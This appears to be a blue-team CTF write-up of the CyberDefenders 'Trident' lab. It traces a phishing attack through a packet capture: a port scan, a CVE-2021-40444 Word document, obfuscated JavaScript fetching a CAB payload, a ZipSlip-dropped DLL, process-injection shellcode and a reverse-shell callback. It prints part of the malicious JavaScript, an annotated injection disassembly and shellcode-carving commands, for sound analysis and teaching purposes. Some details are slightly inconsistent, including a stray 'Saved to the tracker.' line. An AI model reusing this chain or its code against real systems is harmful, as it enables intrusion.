

# Trident Lab

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Questions](#questions)
  * [Port Scanning Identification 101](#port-scanning-identification-101)
  * [Classic Process Hollowing Disassembly Example](#classic-process-hollowing-disassembly-example)
- [Attack Chain](#attack-chain)
  * [Attack Tree](#attack-tree)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/trident/](https://cyberdefenders.org/blueteam-ctf-challenges/trident/)

Suggested tools: Brim, `suricatarunner`, NetworkMiner, Wireshark, IDA, MAC address lookup, Outlook, VirusTotal, `scdbg`, HxD

Tactics: Reconnaissance, Initial Access, Execution, Defense Evasion, Command and Control

# Scenario

As a SOC analyst, a phishing attack attributed to a popular APT group targeted one of your customers. Given the provided PCAP trace, analyze the attack and answer challenge questions.

# Questions

Q1- The attacker conducted a port scan on the victim machine. How many open ports did the attacker find?

Answer: 7

Reason: During reconnaissance, the attacker performed a TCP port scan against victim host `192.168.112.139` from source `192.168.112.128`, sending SYN probes across a wide range of destination ports. Filtering the capture for SYN/ACK responses originating from the victim (`tcp.flags.syn==1 && tcp.flags.ack==1 && ip.dst==192.168.112.128`) and reviewing the results in Wireshark's Statistics > Endpoints > TCP view with "Limit to display filter" enabled revealed seven distinct open ports on the victim machine: `25` (SMTP), `110` (POP3), `135` (MSRPC), `139` (NetBIOS Session Service), `143` (IMAP), `445` (SMB), and `587` (SMTP Submission), confirming the attacker successfully fingerprinted the victim's exposed mail and Windows networking services prior to exploitation.



## Port Scanning Identification 101

**Offense**

A SYN scan (aka "half-open" scan) is the workhorse recon technique because it never completes the TCP handshake. The scanner sends a SYN to a range of ports; if a port is open, the target replies SYN/ACK, and the scanner — instead of sending the final ACK — just moves on (or sends a RST) rather than establishing a full connection. Closed ports reply RST/ACK. Filtered ports (behind a firewall) generate no reply at all, or an ICMP unreachable. This is why tools like `nmap -sS` default to it: it's fast, and historically it dodged connection-based logging since most application-layer logging only fires on a completed three-way handshake — SYN-only traffic often only shows up at the packet-capture/NetFlow layer, not app logs.

101 example: `nmap -sS 10.0.0.5 -p 1-1000` fires ~1000 SYNs at the host in rapid succession, all from the same source port range, with no payload and no completed handshakes on open ports.

**Defense**

The three Wireshark filters we refined are exactly the artifact this leaves behind:

| Purpose | Filter |
| --- | --- |
| Attacker's SYN probes | `tcp.flags.syn==1 && tcp.flags.ack==0 && ip.src==[attacker IP] && ip.dst==[victim IP]` |
| Victim's SYN/ACK replies (open ports) | `tcp.flags.syn==1 && tcp.flags.ack==1 && ip.dst==[attacker IP]` |
| Victim's RST replies (closed ports) | `tcp.flags.reset==1 && ip.dst==[attacker IP]` |

The tell-tale signature in a capture: one source IP hitting many distinct destination ports on one host in a tight time window, with SYN counts far exceeding completed 3-way handshakes (no corresponding client ACK after each SYN/ACK). Ratio-wise — SYN count vs SYN/ACK count vs RST count — tells you the scan's shape: heavy RSTs means mostly-closed ports, a cluster of SYN/ACKs with no follow-up ACK confirms half-open scanning behavior, and silence (no reply at all) flags filtered ports behind a firewall. IDS/IPS signatures (Snort/Suricata `stream5` thresholds, Zeek's `scan.log`) typically alert on "N distinct ports/hosts contacted by one source within T seconds" using this same flag logic under the hood. Mitigation is mostly hygiene: rate-limit/tarpit SYNs at the perimeter, default-deny with silent drop instead of RST (denies the scanner the closed-port signal), and centralize NetFlow/Zeek logging since it survives even when app-layer logs don't fire.Saved to the tracker.

Q2- What is the victim's email address?

Answer: `joshua@cyberdefenders.org`

Reason: Following the reconnaissance phase, the attacker at `192.168.112.128` initiated an SMTP session with the victim host `192.168.112.139` and issued an `RCPT TO` command targeting the mailbox `joshua@cyberdefenders.org`, identifying this address as the victim's email account and the intended recipient of the phishing message that would follow.

```bash
Filter: frame contains "RCPT TO"
Packet: #2656, 2021-10-01 12:31:54.428801 UTC
192.168.112.128 -> 192.168.112.139, SMTP, Source Port 59216
Command: RCPT TO:<joshua@cyberdefenders.org>
Victim email address: joshua@cyberdefenders.org
```


Q3- The malicious document file contains a URL to a malicious HTML file. Provide the URL for this file.

Answer: `hxxp://192.168.112.128/word.html`

Reason: The malicious document was recovered by first isolating the base64-encoded MIME attachment from the SMTP session captured in `e3.pcap` (exported via Wireshark's `File > Export Objects > IMF`) to obtain the email which was renamed as `sample.eml`, then extracting the `base64` blob corresponding to the attachment portion of the email body. This blob was processed in CyberChef using a `Remove Whitespace` recipe step (to strip line-wrapping artifacts from the raw SMTP text) followed by a `From Base64` decode step, and the output was saved as `word.doc`. Since OOXML documents are internally ZIP archives, the file was unzipped with `unzip word.doc -d word_doc`, and the extracted relationship definitions were inspected via `strings _rels/document.xml.rels | grep 192.168.112.128`. This revealed an external OLE object relationship (`rId6`) of type `oleObject` pointing to an MHTML target, `mhtml:<http://192.168.112.128/word.html!x-usc:http://192.168.112.128/word.html`>, consistent with the CVE-2021-40444 (MSHTML remote template injection) technique, in which a crafted document references an external HTML file via an `x-usc` MHTML handler to fetch attacker-controlled content outside the normal sandboxed path. The embedded URL identified is `hxxp://192.168.112.128/word.html`.

```bash
Source: word.doc (extracted from sample.eml MIME attachment, base64-decoded)
Path: word_doc/word/_rels/document.xml.rels
Command: strings _rels/document.xml.rels | grep 192.168.112.128
Relationship: rId6, Type=oleObject, TargetMode=External
Malicious URL: hxxp://192.168.112.128/word.html
```


Q4- What is the Microsoft Office version installed on the victim machine?

Answer: `15.0.4517`

Reason: Following the initial reference to the malicious `word.html` template, the victim host `192.168.112.139` issued a series of HTTP requests (`HEAD`, `OPTIONS`, `GET`) to the attacker's server `192.168.112.128`, beginning with frame `2949` at `2021-10-01 12:32:19 UTC`. The `User-Agent` header on this `HEAD /word.html HTTP/1.1` request identified the requesting application as `Microsoft Office Word 2013 (15.0.4517) Windows NT 6.2`, disclosing both the victim's Office version and underlying Windows version (NT 6.2 corresponds to Windows 8/Server 2012). The Office version installed on the victim machine is `15.0.4517`.


Q5- The malicious HTML contains JavaScript code that points to a malicious CAB file. Provide the URL to the CAB file.

Answer: `hxxp://192.168.112.128/word.cab`

Reason: The HTTP response in frame `2977` (`2021-10-01 12:32:19.154217 UTC`, `192.168.112.128 -> 192.168.112.139`, `HTTP/1.0 200 OK`, `text/html`) delivered the malicious `word.html` page referenced by the earlier MHTML relationship. Extracting this HTTP object and running `strings word.html | grep cab` revealed obfuscated JavaScript using an array-indexed string-decoding technique (a common obfuscation method where literal strings are stored in a shuffled array and reassembled at runtime via index lookups to evade static signature detection) that ultimately references `hxxp://192.168.112.128/word.cab` as the source for an ActiveX/CAB payload download, consistent with the CVE-2021-40444 exploit chain in which the malicious HTML triggers loading of a CAB file containing a malicious INF and DLL. The CAB file URL is `hxxp://192.168.112.128/word.cab`.

```bash
ubuntu@ip-172-31-18-5:~/Desktop/Challenge$ strings word.html | grep cab
var a0_0x127f=['123','365952KMsRQT','tiveX','/Lo','./../../','contentDocument','ppD','Dat','close','Acti','removeChild','mlF','write','./A','ata/','ile','../','body','setAttribute','#version=5,0,0,0','ssi','iframe','748708rfmUTk','documentElement','lFile','location','159708hBVRtu','a/Lo','Script','document','call','contentWindow','emp','Document','Obj','prototype','lfi','bject','send','appendChild','Low/msword.inf','htmlfile','115924pLbIpw','GET','p/msword.inf','1109sMoXXX','./../A','htm','l/T','cal/','1wzQpCO','ect','w/msword.inf','522415dmiRUA','http://192.168.112.128/word.cab',[...]
```

Q6- The exploit takes advantage of a CAB vulnerability. Provide the vulnerability name?

Answer: ZipSlip

Reason: The malicious CAB archive delivered via `hxxp://192.168.112.128/word.cab` exploits `ZipSlip`, a path traversal vulnerability affecting archive extraction routines (including CAB, ZIP, TAR, and similar formats). ZipSlip occurs when an archive's internal file entries contain directory traversal sequences (e.g. `../../`) in their filenames, and the extracting application fails to sanitize these paths, allowing files to be written outside the intended extraction directory — potentially overwriting sensitive files or planting a malicious payload (such as the observed `msword.inf`DLL) into a location where it will be automatically executed or loaded by a trusted process.

Q7- Analyzing the DLL file what is the API used to write the shellcode in the process memory?

Answer: `WriteProcessMemory`

Reason: Static analysis of the disguised payload DLL (`msword.inf`, delivered via the ZipSlip-exploiting `word.cab` archive) was performed using `pedump` to enumerate its import table. The imports revealed a classic process hollowing / injection API sequence — `CreateProcessA` (spawning a suspended target process), `GetThreadContext`/`SetThreadContext` (manipulating the target thread's execution state), `VirtualAllocEx` (allocating memory in the remote process), `WriteProcessMemory` (writing the shellcode payload into that allocated remote memory), and `ResumeThread` (resuming execution to trigger the injected code). The API used to write the shellcode into the target process's memory is `WriteProcessMemory`.

```bash
ubuntu@ip-172-31-18-5:~/Desktop/Challenge$ 7z x word.cab 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=C.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7571 (800F12),ASM,AES-NI)

Scanning the drive for archives:
1 file, 8786 bytes (9 KiB)
Extracting archive: word.cab
Path = word.cab
ERROR: Data Error : ../msword.inf

ubuntu@ip-172-31-18-5:~/Desktop/Challenge$ file msword.inf 
msword.inf: PE32 executable (DLL) (GUI) Intel 80386, for MS Windows

ubuntu@ip-172-31-18-5:~/Desktop/Challenge$ pedump msword.inf | grep -i imports -A 15
=== IMPORTS ===

MODULE_NAME      HINT   ORD  FUNCTION_NAME
KERNEL32.dll       86        CloseHandle
KERNEL32.dll      4b4        ReleaseSemaphore
KERNEL32.dll      5d7        WaitForSingleObject
KERNEL32.dll       bc        CreateEventA
KERNEL32.dll      400        OpenEventA
KERNEL32.dll      15f        ExitThread
KERNEL32.dll      4cd        ResumeThread
KERNEL32.dll       e0        CreateProcessA
KERNEL32.dll      2f7        GetThreadContext
KERNEL32.dll      554        SetThreadContext
KERNEL32.dll      5c7        VirtualAllocEx
KERNEL32.dll      61b        WriteProcessMemory
KERNEL32.dll       e9        CreateSemaphoreA
```

Q8- Extracting the shellcode from the DLL file. What is the name of the library loaded by the shellcode?

Answer: `wininet`

Reason: The shellcode injected via the process-hollowing routine (`CreateProcessA` on `rundll32.exe` with `CREATE_SUSPENDED`, followed by `VirtualAllocEx`/`WriteProcessMemory`/`SetThreadContext`/`ResumeThread`) was extracted from the malicious DLL payload for standalone analysis. Note on extraction methodology: the initial attempt to extract the embedded PE from `word.cab` using `7z x word.cab` produced a `Data Error` on `msword.inf` and yielded a corrupted 1.1GB output file; this was corrected by discarding that extraction and directly carving the PE from `word.cab` at its known offset via `dd if=word.cab of=msword_carved.exe bs=1 skip=82`, confirmed via `file` as a valid `PE32 DLL`. Static analysis in IDA of this clean DLL identified the shellcode buffer at `unk_10003000` in the `.data` section (RVA `0x3000`), which was located at file offset `0xC00` and sized `0x1000` bytes per the arguments to `WriteProcessMemory`; this was carved out via `dd if=msword.inf of=shellcode.bin bs=1 skip=3072 count=4096`. Emulating the extracted `shellcode.bin` in `scdbg` revealed its first action was `LoadLibraryA(wininet)`, followed by `InternetOpenA` and `InternetConnectA` to `192.168.112.128:443`, confirming the shellcode uses the `WinINet` API for its command-and-control communication. The library loaded by the shellcode is `wininet`.


**Shellcode Offset Location**

- **Start offset** (`skip=3072` / `0xC00`): identified from static analysis in IDA. The `WriteProcessMemory` call in `sub_10001050` pushed offset `unk_10003000` as `lpBuffer` — the source buffer for the injected shellcode. `unk_10003000` is a virtual address sitting at RVA `0x3000`, which is the very start of the `.data` section. Using IDA's "Jump to file offset" (status bar readout) confirmed this VA maps to file offset `0xC00` (`3072` decimal), and this was independently cross-checked via `pedump`'s section table, which showed `.data` has `RAW_PTR=c00` — matching exactly, since the shellcode sits at the section's offset-zero.
- **Byte count** (`count=4096` / `0x1000`): identified from the same `WriteProcessMemory` call's `nSize` argument, which was pushed as `1000h` (`4096` bytes) immediately before the call — this is the exact size the malware itself specifies when copying the shellcode into the hollowed `rundll32.exe` process, so it's the authoritative length of the shellcode blob, not a guess.

```nasm
=== SECTIONS ===

  NAME          RVA      VSZ   RAW_SZ  RAW_PTR  nREL  REL_PTR nLINE LINE_PTR     FLAGS
  .text        1000      265      400      400     0        0     0        0  60000020  R-X CODE
  .rdata       2000      260      400      800     0        0     0        0  40000040  R-- IDATA
  .data        3000     1219     1400      c00     0        0     0        0  c0000040  RW- IDATA
  .reloc       5000       34      200     2000     0        0     0        0  42000040  R-- IDATA DISCARDABLE
  
$   dd if=msword.inf of=shellcode.bin bs=1 skip=3072 count=4096

$ ubuntu@ip-172-31-18-5:~/Desktop/Challenge$ file shellcode.bin 
shellcode.bin: data

$ ubuntu@ip-172-31-18-5:~/Desktop/Challenge$ xxd shellcode.bin | head -n 1
00000000: fce8 8f00 0000 6031 d289 e564 8b52 308b  ......`1...d.R0.
```


## Classic Process Hollowing Disassembly Example


```nasm
asm
lea     ecx, [ebp+ProcessInformation]
push    ecx                       ; lpProcessInformation
lea     edx, [ebp+StartupInfo]
push    edx                       ; lpStartupInfo
push    0                         ; lpCurrentDirectory = NULL
push    0                         ; lpEnvironment = NULL
push    44h ; 'D'                 ; dwCreationFlags = 0x44
                                   ; = CREATE_SUSPENDED (0x4) | CREATE_NEW_CONSOLE-ish flag combo
                                   ; CREATE_SUSPENDED is the key one — starts the process
                                   ; paused so it can be hollowed before it runs
push    1                         ; bInheritHandles = TRUE
push    0                         ; lpThreadAttributes = NULL
push    0                         ; lpProcessAttributes = NULL
push    offset CommandLine        ; "rundll32.exe" — the LOLBIN being hollowed
push    0                         ; lpApplicationName = NULL
call    ds:CreateProcessA         ; spawns rundll32.exe, suspended, as the hollow target
test    eax, eax
jz      loc_1000112C              ; bail if CreateProcessA failed

mov     [ebp+Context.ContextFlags], 10003h  ; CONTEXT_FULL — request full register state
lea     eax, [ebp+Context]
push    eax                       ; lpContext
mov     ecx, [ebp+ProcessInformation.hThread]
push    ecx                       ; hThread
call    ds:GetThreadContext       ; reads the suspended thread's register state (incl. EIP)

push    40h ; '@'                 ; flProtect = PAGE_EXECUTE_READWRITE
push    1000h                     ; flAllocationType = MEM_COMMIT
push    1000h                     ; dwSize = 0x1000 (4096 bytes) — shellcode buffer size
push    0                         ; lpAddress = NULL (let system choose)
mov     edx, [ebp+ProcessInformation.hProcess]
push    edx                       ; hProcess
call    ds:VirtualAllocEx         ; allocates RWX memory INSIDE the hollowed rundll32.exe
mov     [ebp+lpBaseAddress], eax  ; save the new remote allocation's base address

push    0                         ; lpNumberOfBytesWritten = NULL
push    1000h                     ; nSize = 0x1000 bytes to write
push    offset unk_10003000       ; lpBuffer = pointer to the SHELLCODE stored in THIS DLL
mov     eax, [ebp+lpBaseAddress]
push    eax                       ; lpBaseAddress (remote)
mov     ecx, [ebp+ProcessInformation.hProcess]
push    ecx                       ; hProcess
call    ds:WriteProcessMemory     ; writes the shellcode from unk_10003000 into the
                                   ; remote process's freshly allocated memory

mov     edx, [ebp+lpBaseAddress]
mov     [ebp+Context._Eip], edx   ; overwrite the saved EIP to point at the shellcode
lea     eax, [ebp+Context]
push    eax                       ; lpContext
mov     ecx, [ebp+ProcessInformation.hThread]
push    ecx                       ; hThread
call    ds:SetThreadContext       ; commits the modified register state (redirected EIP)

mov     edx, [ebp+ProcessInformation.hThread]
push    edx                       ; hThread
call    ds:ResumeThread           ; resumes the suspended thread — execution jumps
                                   ; straight into the injected shellcode

mov     eax, [ebp+ProcessInformation.hThread]
push    eax                       ; hObject
call    ds:CloseHandle            ; cleanup: close thread handle
mov     ecx, [ebp+ProcessInformation.hProcess]
push    ecx                       ; hObject
call    ds:CloseHandle            ; cleanup: close process handle
```

Q9- Which port was configured to receive the reverse shell?

Answer: `443`

Reason: The `scdbg` emulation trace of the extracted shellcode showed the `InternetConnectA` call specifying `server: 192.168.112.128, port: 443`, establishing the C2 destination and port the shellcode connects back to over the WinINet API for the reverse shell channel. The port configured to receive the reverse shell is `443` , as seen in the image in Q8.

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2021-10-01 ~12:31 | Reconnaissance | Attacker `192.168.112.128` performed a TCP SYN port scan against victim `192.168.112.139`, identifying 7 open ports (`25`, `110`, `135`, `139`, `143`, `445`, `587`). | T1595 |
| 2021-10-01 12:31:54 | Initial Access | Attacker sent a phishing email via SMTP, issuing `RCPT TO:joshua@cyberdefenders.org` to deliver a malicious attachment to the victim mailbox. | T1566.001 |
| 2021-10-01 12:31:54 (approx.) | Initial Access | Victim's mail client received the malicious attachment, later confirmed as `word.doc` (Microsoft OOXML) containing an external MHTML/`x-usc` relationship (`rId6`) referencing `hxxp://192.168.112.128/word.html`. | T1566.001, T1221 |
| 2021-10-01 12:32:19.115923 | Execution | Victim opened `word.doc` in Microsoft Office Word 2013 (`15.0.4517`), which auto-triggered a `HEAD /word.html` request to the attacker server, disclosed via `User-Agent` header. | T1203 |
| 2021-10-01 12:32:19.154217 | Execution | Attacker server delivered `word.html` (`HTTP/1.0 200 OK`), containing obfuscated JavaScript referencing a malicious CAB payload. | T1027, T1203 |
| 2021-10-01 12:32:20.174696 | Execution | Victim requested and downloaded `word.cab` (`GET /word.cab`), a CAB archive exploiting the `ZipSlip` path-traversal vulnerability to drop a malicious DLL disguised as `msword.inf`. | T1203, T1027.001 |
| 2021-10-01 12:32:20 (approx.) | Defense Evasion / Execution | `msword.inf` (malicious DLL) executed a process-hollowing-style injection: spawned `rundll32.exe` suspended via `CreateProcessA`, allocated remote memory (`VirtualAllocEx`), wrote shellcode (`WriteProcessMemory`), redirected execution via `SetThreadContext`/`ResumeThread`. | T1055.003 |
| 2021-10-01 12:32:20 (approx.) | Command and Control | Injected shellcode loaded `wininet` (`LoadLibraryA`) and established a C2 channel via `InternetOpenA`/`InternetConnectA` to `192.168.112.128:443`, configured to receive a reverse shell. | T1071.001, T1105 |

## Attack Tree

```nasm
[Reconnaissance] 192.168.112[.]128 → 192.168.112[.]139
    └── TCP SYN port scan → 7 open ports discovered (25,110,135,139,143,445,587)
        └── [Stage 1 — Initial Access]
            └── SMTP session → RCPT TO:<joshua@cyberdefenders.org>
                └── phishing attachment delivered (base64 MIME) ← sample.eml
                    └── word.doc (OOXML) ← contains mhtml x-usc external relationship
                        └── [Stage 2 — Execution: Template Injection]
                            └── Word auto-fetch → hxxp://192.168.112[.]128/word.html
                                ├── HEAD /word.html  ← discloses MS Office 15.0.4517 UA
                                └── GET /word.html → 200 OK (obfuscated JS payload)
                                    └── JS decode → hxxp://192.168.112[.]128/word.cab
                                        └── [Stage 3 — Execution: CAB Exploit (ZipSlip)]
                                            └── word.cab → drops msword.inf (malicious DLL)
                                                └── [Stage 4 — Defense Evasion: Thread Execution Hijacking]
                                                    └── CreateProcessA(rundll32.exe, SUSPENDED)
                                                        ├── VirtualAllocEx (remote .data-sourced shellcode buffer)
                                                        ├── WriteProcessMemory (shellcode injected)
                                                        ├── SetThreadContext (EIP → shellcode)
                                                        └── ResumeThread
                                                            └── [Stage 5 — Command & Control]
                                                                └── shellcode: LoadLibraryA(wininet)
                                                                    └── InternetConnectA → 192.168.112[.]128:443 ← reverse shell C2
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Network | Attacker IP | `192.168.112.128` |
|  | Victim IP | `192.168.112.139` |
|  | Victim email | `joshua@cyberdefenders.org` |
|  | Malicious HTML URL | hxxp://192.168.112[.]128/word.html |
|  | Malicious CAB URL | hxxp://192.168.112[.]128/word.cab |
|  | C2 destination | `192.168.112.128:443` |
|  | User-Agent | `Microsoft Office Word 2013 (15.0.4517) Windows NT 6.2` |
| Delivery | Vector | SMTP phishing email with malicious document attachment |
|  | Exported email | `sample.eml` |
|  | Malicious document | `word.doc` (Microsoft OOXML) |
|  | Injection technique (doc) | MHTML external relationship, `x-usc` handler (`_rels/document.xml.rels`, `rId6`) |
|  | CAB vulnerability | `ZipSlip` (archive path traversal) |
| Dropped File | CAB archive | `word.cab` |
|  | Payload DLL | `msword.inf` (disguised PE32 DLL) |
|  | Extracted shellcode | `shellcode.bin` |
| Execution / Injection | Injection technique | Thread Execution Hijacking (suspended `CreateProcessA` + `SetThreadContext`/`ResumeThread`) |
|  | Hollowed process | `rundll32.exe` |
|  | Key APIs | `CreateProcessA`, `VirtualAllocEx`, `WriteProcessMemory`, `GetThreadContext`, `SetThreadContext`, `ResumeThread` |
|  | Shellcode location | `.data` section, `unk_10003000` (file offset `0xC00`, size `0x1000`) |
|  | Library loaded by shellcode | `wininet` |
| Host Indicators | Victim hostname | `WIN-D2TSDEME6NN` |
|  | Office version | `15.0.4517` |
|  | OS version | Windows NT 6.2 |

# Lab Insights

- File extensions are decoration, not evidence of type. Every stage of this chain relied on mismatched extensions to slip past assumption-based triage: a ZIP-based OOXML document, a "`.inf`" file that was actually a PE32 DLL, and an email attachment that only revealed itself as a document after stripping whitespace and base64-decoding. The lesson isn't "check magic bytes" as a rote step — it's that an analyst who trusts an extension at any point in a multi-stage chain will misclassify evidence and stall the investigation exactly where the attacker wanted friction.
- Corrupted extraction is a trap, not a dead end. The CAB extraction failure (CRC/data error via 7z, producing a garbage 1.1GB file) could have been read as "this tool doesn't work here, move on" — but the underlying file was fine; only the decompression path was broken. Falling back to a raw offset carve with `dd` bypassed the broken logic entirely. This generalizes: when a format-aware parser chokes on malformed structure, a byte-level carve using an independently-verified offset (from `binwalk`, a hex editor, or a disassembler) is often more reliable than trusting the parser's error handling.
- Static analysis answers "where," dynamic emulation answers "what." IDA's import table told us this DLL does process injection in general terms; walking the disassembly told us exactly where the shellcode lives (.data, a hardcoded offset and size baked into the malware's own `WriteProcessMemory` call); scdbg then told us what that shellcode actually does at runtime (`LoadLibraryA`(`wininet`) → C2 callback) without ever executing it on a real host. No single tool covered the full picture — the chain of custody moved from PE structure, to virtual-address-to-file-offset translation, to emulated API trace, each step narrowing scope for the next.
- "Process hollowing" is used loosely — the absence of one API call changes the classification. This sample never called `NtUnmapViewOfSection`, meaning it's Thread Execution Hijacking (T1055.003), not true Process Hollowing (T1055.012), despite sharing the same suspended-spawn-and-resume shape. Correctly naming the sub-technique matters for detection engineering, since EDR rules tuned for one pattern (image unmapping) won't necessarily catch the other (remote allocation + EIP redirection).